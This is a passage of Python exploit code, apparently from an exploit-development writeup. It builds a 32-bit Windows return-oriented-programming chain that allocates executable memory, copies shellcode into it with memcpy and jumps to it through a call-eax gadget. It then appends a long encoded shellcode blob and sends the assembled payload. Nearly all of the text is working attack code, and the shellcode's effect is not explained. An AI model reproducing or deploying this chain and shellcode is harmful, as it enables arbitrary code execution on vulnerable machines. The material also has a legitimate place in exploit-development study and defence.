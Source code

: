 ```
# This is just a place holder value
ropChain += p32(0x31313131)

# Size of the memory space
ropChain += p32(0x400)

# Permissions to our memory region
ropChain += p32(0x40)

# The address in memory where a ptr to the allocated space will be written
# This spot will be where the `p32(0x32323232)` spot in our rop chain is
ropChain += p32(ropStart + 0x28)



# Call Memcpy function
ropChain += p32(memcpy)

# Clean up the arguments
ropChain += p32(pop4)

# Our Arguments to memcpy

# This will hold the address of the allocated memory, which was overwritten durring the virtualalloc winapi call
# This is the address that memcpy will write to
ropChain += p32(0x31313131)

# This holds the address of the data which will be read, which is our shellcode further down the rop chain
ropChain += p32(ropStart + 0x3c)

# This is the amount of bytes which memcpy will write
ropChain += p32(0x400)

# Another value to deal with the `add esp; pop ebp`
ropChain += p32(0x32323232)

# After memcpy is called, the return value (stored in eax)
# Will be the address that is written to, in other words where our shellcode in executable memory is
# So we just need to call eax to run the shellcode
ropChain += p32(callEax)

# Add our shellcode
shellcode = "\x90\x6A\x53\x90\xbe\x30\x3f\x47\x5c\xda\xc7\xd9\x74\x24\xf4\x5f\x2b\xc9\xb1\x43\x31\x77\x14\x03\x77\x14\x83\xef\xfc\xd2\xca\x2d\x6c\x4c\x51\x39\x8a\xfb\xe9\x31\x18\x8d\x1d\xc1\x58\x61\x1b\xd5\x74\x81\x23\x85\xff\xb7\xa8\x13\x8b\xe1\xbe\x33\x2e\x1a\xbf\xbf\x62\xcc\x28\x3f\x83\x0c\x3f\x2b\xe6\x75\xbf\x22\x0f\xd7\xd7\x34\xd0\xd7\x27\x5d\x50\xd7\x27\x9d\x38\xd4\x27\x9d\xb8\xb2\x27\x9d\xb8\x42\x40\x9c\xb8\x42\x90\xf6\xb8\x42\x90\x86\xee\xbd\x40\xdc\x99\x86\x09\xf7\xfc\xf2\xda\xa5\x16\x62\xdb\x49\xe7\xe3\x37\x49\xe5\xe3\xc7\xc3\x08\xb2\xaf\xd3\xca\x34\x30\x85\x4b\xdd\x30\x27\x4c\x1d\x59\x27\x4e\x1d\x99\x76\x19\xe2\x49\x21\x24\xf5\x6a\xd0\x26\x05\xea\x10\x22\x07\xec\x98\x73\x02\x8c\x9c\x83\x0c\xcd\x71\x8f\x08\xcd\x89\xf8\x10\xcc\x89\xf8\x41\x31\x59\xae\x36\x46\x2e\x6b\xb4\x69\x30\x8f\xf5\x49\x62\x48\x15\x3d\x71\x68\x1a\xb3\x84\xad\x4d\x23\x79\xce\x72\x35\x7e\x6e\xd2\x84\x7b\x91\x8a\x83\xe8\xb5\x6e\x1f\xb5\x89\xe5\x4b\x33\x8a\xf8\x99\xb0\x20\xe2\xd6\x9d\x94\x13\x02\xc2\xff\x5a\x5f\x31\x8b\x5d\xb1\x6c\x63\xe6\xb2\x6e\x8c\x23\x09\xb5\x5b\x26\x7d\x3e\xc1\xec\x7c\xaa\x90\x67\x72\x67\xd6\x2d\x97\x76\x03\x5a\xa3\xf3\xd2\xb4\x45\x01\xd5\x44\x96\x37\x15\xcd\xd2\x13\x89\xac\x18\x53\xb1"

ropChain += shellcode

# Add the ropChain to the payload, and send it
payload = payload + ropChain
```